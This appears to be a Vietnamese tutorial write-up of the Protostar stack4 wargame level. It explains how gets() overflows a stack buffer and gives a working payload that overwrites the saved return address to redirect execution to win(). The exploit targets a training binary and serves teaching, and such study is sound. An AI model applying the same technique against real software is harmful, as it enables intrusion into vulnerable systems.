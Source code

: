 ```yaml
---
layout: post
title: stack4
---
```

Kỹ thuật trong bài trước giới thiệu cách tìm và gán địa chỉ hàm để gọi đến hàm đó.
Tuy nhiên, việc gọi hàm thành công là do trong source code đã có sẵn dòng lệnh với mục đích tương tự.
Trong bài này, chúng ta sẽ tìm hiểu cách thức gọi hàm hoàn toàn ngoài ý muốn của chương trình.
Hãy xem source code sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Có thể thấy bên trong hàm `main` chỉ gọi `gets` để lấy giá trị người dùng nhập vào và gán cho biến `buffer`.
Chương trình sẽ thoát ngay sau đó mà không có thêm lệnh nào khác.
Tuy nhiên, nếu nhìn vào asm code của chương trình như dưới đây, ta sẽ thấy có thêm 2 lệnh được chạy.
```asm
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
```
2 lệnh được nhắc đến là `leave` và `ret`, tương đương với `return` trong C.
Lưu ý rằng chạy một chương trình tương tự như việc gọi 1 hàm con.
Trước khi lệnh đầu tiên của hàm con được thực thi, CPU sẽ lưu lại địa chỉ của lệnh kế tiếp cần được thực hiện sau khi hàm con kết thúc.
Khi hàm con return về hàm đã gọi nó, địa chỉ này sẽ được `pop` vào `eip`, và lệnh tại đó được thực thi.
Ví dụ, hãy cùng xem stack ngay trước vào khi gọi hàm `gets` trong `main` của chương trình stack4.
Phân biệt theo màu: <span style="color:aqua">esp</span> và <span style="color:orangered">eip</span>.
<pre class="memory">
<span style="color:orangered">0x8048418</span>:    call   0x804830c
0x804841d:    leave
...
0xbffff748:     0xb7fff8f8
0xbffff74c:     0xb7f0186e
<span style="color:aqua">0xbffff750</span>:     0xbffff760
0xbffff754:     0xb7ec6165
</pre>
Ngay sau khi lệnh `call` được thực thi.
<pre class="memory">
<span style="color:orangered">0x804830c</span>:   jmp    DWORD PTR ds:0x80495fc
...
0xbffff748:     0xb7fff8f8
<span style="color:aqua">0xbffff74c</span>:     0x0804841d
0xbffff750:     0xbffff760
0xbffff754:     0xb7ec6165
</pre>
Ở đây, lệnh cần được thực thi sau khi `gets` hoàn thành nằm ở địa chỉ `0x804841d`.
Do vậy lệnh này được `push` vào stack.

Khi áp dụng lý thuyết này vào trường hợp stack4 được gọi bởi hệ điều hành, ta biết được sẽ có 1 địa chỉ lệnh được lưu vào bộ nhớ để dùng sau khi stack4 kết thúc.
`ret` của stack4 sẽ pop giá trị địa chỉ này vào `eip` sau khi nó được thực thi.
Nếu biết vị trí lưu địa chỉ này, chúng ta có thể exploit chương trình bằng cách ghi đè địa chỉ khác lên nó và điều hướng cho chương trình thực thi lệnh lưu ở địa chỉ mới.
Các hacker sử dụng lý thuyết này để điều hướng và chạy đoạn mã độc của họ.

Callee và caller là thuật ngữ để chỉ một hàm (caller) gọi một hàm khác (callee).
Cần lưu ý thêm rằng ngoài địa của lệnh kế tiếp, `ebp` của caller cũng được lưu lại.
(nếu để ý đoạn code sẽ thấy lệnh `push ebp` là lệnh đầu tiên của main.)
Một vài calling convention quyết định bởi compiler, trong đó có ví dụ stack4 của bài viết này, sẽ lưu `eip`, tiếp theo là 4 byte `ebp` lên stack, và có thêm cả padding.
Callee sẽ có `ebp` chính là `esp` của caller.
Padding trong bài này có thể thấy qua lệnh `and esp,0xfffffff0`. Lệnh này sẽ biến thay đổi 4 bit nhỏ nhất trong giá trị `esp` về 0.
(kỹ thuật này còn được gọi là memory alignment, dùng để tối ưu và tăng tốc truy cập bộ nhớ.)
Như vậy padding sẽ có độ dài thông thường là 0, 4, 8, hoặc 12 byte.
Để ghi đè vào đúng địa chỉ mong muốn, ta sẽ cần quan tâm đến phần padding này.

Từ asm code của `main` (callee), ta thấy được `buffer` sẽ chiếm 64 byte bộ nhớ từ `esp + 0x10` đến `esp + 0x4f`.
Ngay sau `buffer`, bắt đầu từ `esp + 0x50` sẽ là phần bao gồm padding với độ dài không chắc chắn và theo sau với 4 byte `ebp` của caller trước khi chạm đến được địa chỉ `eip` của caller.
Như vậy, ta sẽ cần chuẩn bị giá trị tương đương khoảng 64 + 12 + 4 + 4 = 84 byte để làm tràn `buffer` và lưu địa chỉ mới cho `eip` của caller.
Sau đây là giá trị được dùng làm ví dụ, với địa chỉ của win là `0x080483f4`.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">vùng padding, ebp, eip của caller</span>.

<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080495ec</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x080482e8</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080495ec</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048449</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048430</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804843b</span>      <span style="color:aqua">0xb7fd7ff4</span>
0xbffff7a0:     <span style="color:orangered">0x08048430</span>      <span style="color:orangered">0x00000000</span>      <span style="color:orangered">0xbffff828</span>      <span style="color:orangered">0xb7eadc76</span>
0xbffff7b0:     <span style="color:orangered">0x00000001</span>      0xbffff854      0xbffff85c      0xb7fe1848
</pre>
Sau khi gọi hàm `gets`:
```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 5" > input.txt
stack4 < input.txt
```
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0x41414141</span>      <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>
0xbffff770:     <span style="color:aqua">0x45454545</span>      <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>
0xbffff780:     <span style="color:aqua">0x31313131</span>      <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>
0xbffff790:     <span style="color:aqua">0x35353535</span>      <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>
0xbffff7a0:     <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>
0xbffff7b0:     <span style="color:orangered">0x080483f4</span>      0xbffff800      0xbffff85c      0xb7fe1848
</pre>

## Ref
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 5" > input.txt
user@protostar:~$ stack4 < input.txt
code flow successfully changed
code flow successfully changed
Segmentation fault
```

Lời giải phổ biến hơn với giả định padding thông thường dài 8 byte:
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 4" > input.txt
user@protostar:~$ stack4 < input.txt
code flow successfully changed
Segmentation fault
```
